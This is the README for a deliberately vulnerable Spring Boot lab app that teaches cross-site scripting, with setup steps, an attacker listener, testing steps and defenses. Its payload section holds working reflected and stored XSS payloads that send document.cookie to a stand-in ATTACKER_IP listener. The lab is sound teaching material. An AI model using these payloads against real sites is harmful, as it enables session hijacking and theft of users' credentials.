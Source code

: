 # vuln-xss-app — Quick README (summary)

**Purpose:** Local, controlled vulnerability demo for Cross-Site Scripting (XSS). Use in isolated VMs only for education and assignments.

> ⚠️ Safety: Run this only in machines and networks you control. Use fake/demo data only (e.g. `session=FAKE_FOR_DEMO`). Do not target external systems.

---

## What’s included

- `pom.xml` — Maven project
- `src/main/java/...` — Spring Boot server
- `src/main/resources/static/` — front-end HTML (search.html, comments.html, etc.)
- `attacker_listener.py` — simple Python listener (lab-only)
- `DemoCookieController.java` — demo endpoint to set a JS-readable cookie (optional)

---

## Quick setup (Ubuntu VM)

1. Install prerequisites:

```bash
sudo apt update
sudo apt install -y openjdk-17-jdk maven python3 python3-pip
```

2. Build the project (from project root):

```bash
mvn clean install -U
```

3. Run the app (example port 3001):

```bash
mvn spring-boot:run -Dspring-boot.run.arguments="--server.port=3001"
```

---

## Demo cookie (server-side) — `/set-demo-cookie`

Visit `/set-demo-cookie` to set a **demo** cookie that JavaScript can read:

```text
GET /set-demo-cookie
# sets: session=FAKE_FOR_DEMO (HttpOnly=false) — demo-only
```

**Note:** In production session cookies must be `HttpOnly`.

---

## Attacker listener (on attacker VM)

Save and run `attacker_listener.py` on the attacker VM to capture exfil requests:

```bash
python3 attacker_listener.py
# listens on 0.0.0.0:9000
```

The listener logs GET/POST requests and prints query params and headers.

---

## Example attack payloads

Replace `ATTACKER_IP` with your attacker VM IP (e.g. `10.0.2.6`) and `APP_PORT` with your app port (e.g. `3001`).

**Reflected (URL) — exfiltrate cookie via img onerror**

```
http://localhost:APP_PORT/search.html?q=<img src=x onerror="new Image().src='http://ATTACKER_IP:9000/log?c='+encodeURIComponent(document.cookie)">
```

(URL-encode if pasting into address bar.)

**Stored (comment)** — post this as a comment body and reload the comments page:

```html
<img
  src="x"
  onerror="new Image().src='http://ATTACKER_IP:9000/log?c='+encodeURIComponent(document.cookie)"
/>
```

**Reliable visual payloads (for demos):**

```html
<img
  src="x"
  onerror="console.log('XSS fired'); document.body.style.border='6px solid red'"
/>
<svg/onload=console.log('svg onload fired')>
```

---

## Testing & verification

1. Start attacker listener on attacker VM: `python3 attacker_listener.py`.
2. On client (victim) browser, visit `/set-demo-cookie` to set `session=FAKE_FOR_DEMO`.
3. Trigger reflected or stored payload. Watch attacker listener log showing `c: ['session=FAKE_FOR_DEMO']`.
4. Capture screenshots: listener output, browser console showing `document.cookie`, Elements showing injected node, and the URL or posted comment with the payload.

---

## Common troubleshooting

- If `curl -I` returns "Unsupported method ('HEAD')", use the updated `attacker_listener.py` that implements `do_HEAD` (included).
- If listener gets no requests: check VM networking (host-only/internal/bridged), firewall (`ufw`), and that listener binds to `0.0.0.0`.
- If `<script>` payloads don’t execute: modern browsers often do not execute `<script>` tags inserted via `innerHTML`. Use `img onerror` or append a `script` element via Console or a demo patch.

---

## Defenses (apply after demo)

1. **Sanitize input** server-side (e.g. `Jsoup.clean(input, Safelist.none())`) before storing or reflecting.
2. **Escape output** on frontend: use `element.textContent = userInput` instead of `innerHTML`.
3. **Set HttpOnly** on session cookies so `document.cookie` cannot read them.
4. **Content-Security-Policy** header to block inline JS (as second line of defense).
5. Add security headers: `X-Frame-Options: DENY`, `X-Content-Type-Options: nosniff`, `Referrer-Policy: no-referrer`.

---

## Reverting demo changes (must do)

- Remove `DemoCookieController` or set cookie to `HttpOnly=true`.
- Revert any demo-only front-end code that auto-executes script content from query params or stored comments.
- Replace any `innerHTML` use for untrusted data with `textContent` or sanitized HTML.

*
